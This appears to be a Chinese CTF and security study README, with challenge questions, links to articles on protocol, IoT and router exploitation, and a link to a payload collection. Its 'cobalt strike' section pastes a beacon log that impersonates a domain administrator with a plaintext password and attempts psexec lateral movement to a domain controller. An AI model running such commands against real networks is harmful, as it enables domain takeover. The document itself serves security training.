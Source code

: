 ## Q & A 提问
- FAQ.one
- Windows 本地怎样启环境 运行 angr，像 linux 启动 pwn 题目那样。。想迷宫爆破。 -- 想 win 下启动迷宫题目支持 nc/telnet 连接
- web JustUpload-v2  反序列化
- web burpsuite ,intruder Filter输入中文。显示为乱码且无法过滤。
- png_4 题目怎么做
- 你文件没了快打钱.zip -- smc 题目 ， 1.多次运行后 sp 错误。 2.怎样解码后 patch 出来。并且能运行。
- my_asm 怎样重写为asm并编译运行
- re怎样将ELF修改为无随机地址
- fmtarg ($ecx) 怎么写用 ecx
- Misc  run.zip 有密码的什么东西
  -  Challenges\@todo 1.png
- re: 鹏城锦标赛\工控-驱动\drive.zip
- re_iot: 钢铁行业锦标赛\06firmware_reverse
- pwn:  为什么patchelf后不能运行 _怎么办？
- pwn: pwntools怎样设置编码来输出中文 shctf call_call_would_backdoor。

### cobalt strike

- 都有权限浏览域控，为啥不能上线？

```sh
beacon> make_token tide1\administrator 1qaz@WSX
[*] Tasked beacon to create a token for tide1\administrator
beacon> jump psexec DC smb
[*] Tasked beacon to run windows/beacon_bind_pipe (\\.\pipe\msagent_ce) on DC via Service Control Manager (\\DC\ADMIN$\cc76326.exe)
[+] host called home, sent: 287632 bytes
[+] Impersonated T1-COMPUTER\test
[-] could not upload file: 53
[-] Could not open service control manager on DC: 1722
[-] Could not connect to pipe: 53
beacon> ls \\192.168.61.129\C$
[*] Tasked beacon to list files in \\192.168.61.129\C$
[+] host called home, sent: 37 bytes
[*] Listing: \\192.168.61.129\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     06/19/2023 06:28:52   $Recycle.Bin
          dir     06/19/2023 22:13:56   001.env.python-3.5.1-embed-amd64
```

## 综合利用

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)

## TODO

exec 更改标准输入到 test
exec 1>test
whoami
cat test

# Articles

## QQ 群

829089482 赛事群

## 协议分析/Protocol/IoT

- [MQTT 安全分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492664&idx=1&sn=e18c8c1e7209f6bacddb85397eab85c9)

- [协议分析 | 简析 ARP 欺骗](https://mp.weixin.qq.com/s/WyFPxxjSLF-diSUA-cTRZA)
- [协议分析 | 对一个 apk 协议的继续分析—libsgmain 反混淆与逆向](https://mp.weixin.qq.com/s/s06dvT056fqkENIYoEHZ3w)
- [协议分析 | 【app 渗透】破解 apk app 协议 测试接口等安全](https://mp.weixin.qq.com/s/jAzwLDjrIWhGSSYcA1PyYw)
- [协议分析 | SNMP | 手把手玩转路由器漏洞挖掘系列 - SNMP协议分析](https://mp.weixin.qq.com/s/cceDMM4dJbC_IpexrMO8jg)
- [TLS 1.2 协议解析流程学习（一）](https://mp.weixin.qq.com/s/DS3ZMVSlHvIV0wIDrrmHpg)
- [HLS 无损下载 B 站直播 | HLS 协议从入门到实践](https://www.bilibili.com/video/BV1yL411k7DK/)
- [USB | USB基础知识介绍](https://mp.weixin.qq.com/s/i9tJ1gMOyGiw-wwQQ-g_-w)
- [USB | 用协议分析仪直观理解USB传输的核心概念](https://mp.weixin.qq.com/s/FXM1Kf0KCaVPEJapLysj3Q)

- [蓝牙 | bluetooth | 协议分析 | Bluetooth 蓝牙协议栈技术初探](https://mp.weixin.qq.com/s/1pG6jnvt3aqPrz5Vl6FIqg)
- [蓝牙 | bluetooth | 基于树莓派的蓝牙协议抓包](https://mp.weixin.qq.com/s/ftaqzXcP23ATsCms1qfgHg)
- [蓝牙 | bluetooth | 蓝牙马蹄锁分析过程](https://mp.weixin.qq.com/s/Vrkr9pSr1zPQQJVh9n3PDw)

---

- [IOT 设备常见配置文件加解密分析](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247496354&idx=1&sn=79f02dbebafeb18dfc3e962c489a560f)
- [Openwrt 进程间通信-Ubus](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247494791&idx=1&sn=58ce08c883a7056af29163db8fac83c4)
- [家用智能灯泡的控制功能安全测试](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247497263&idx=1&sn=7cd7b78de1b751434da43238495511c4)
- [CVE-2020-3331 思科 RV110W 路由器命令执行](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492240&idx=1&sn=8bf9052411b68a17438006e846123cad)
- [EMUX 仿真 RV130 的栈溢出整型利用](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247495867&idx=1&sn=4fd1f76459a06039734f667417b5090f)
- [基于树莓派实现 IOT 流量抓取](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247492289&idx=1&sn=900759780e235368e5ec1ff54f6ac800)
- [固件符号表恢复](http://mp.weixin.qq.com/s?__biz=MzUzMDUxNTE1Mw==&mid=2247491846&idx=1&sn=b04846dbd9d5a72601f2469674f3c7d9)

## 网络安全/项目/毕业设计

[科普大作：等保、分保、关保、密评（附下载）](https://mp.weixin.qq.com/s/B6itiRBUkm8dSgX9VGBQgw)
[实验室 2023 届 本科优秀毕业设计展示一——操作系统实践、代码保护](https://mp.weixin.qq.com/s/C_Ias9xu02c1MpQo0CSzRQ)
[实验室 2023 届 本科优秀毕业设计展示二——网络安全](https://mp.weixin.qq.com/s/IIMm-h6Fxota7XfN_07OJg)
[实验室 2023 届 本科优秀毕业设计展示三——安全工具](https://mp.weixin.qq.com/s/UM-gCy9MIw9PQMN7X3ofyg)
[实验室 2023 届 本科优秀毕业设计展示四——应用安全](https://mp.weixin.qq.com/s/-qTDBayECI8i11n-W1GEBg)
[获奖！立项！结题！](https://mp.weixin.qq.com/s/Q6n8JZ1VGdiAnEZNJZdDYw)


## 出题相关/题目设计
[CTF设计的七个经验教训](https://mp.weixin.qq.com/s/jondfZ08dy-NXeTQyzKHsg)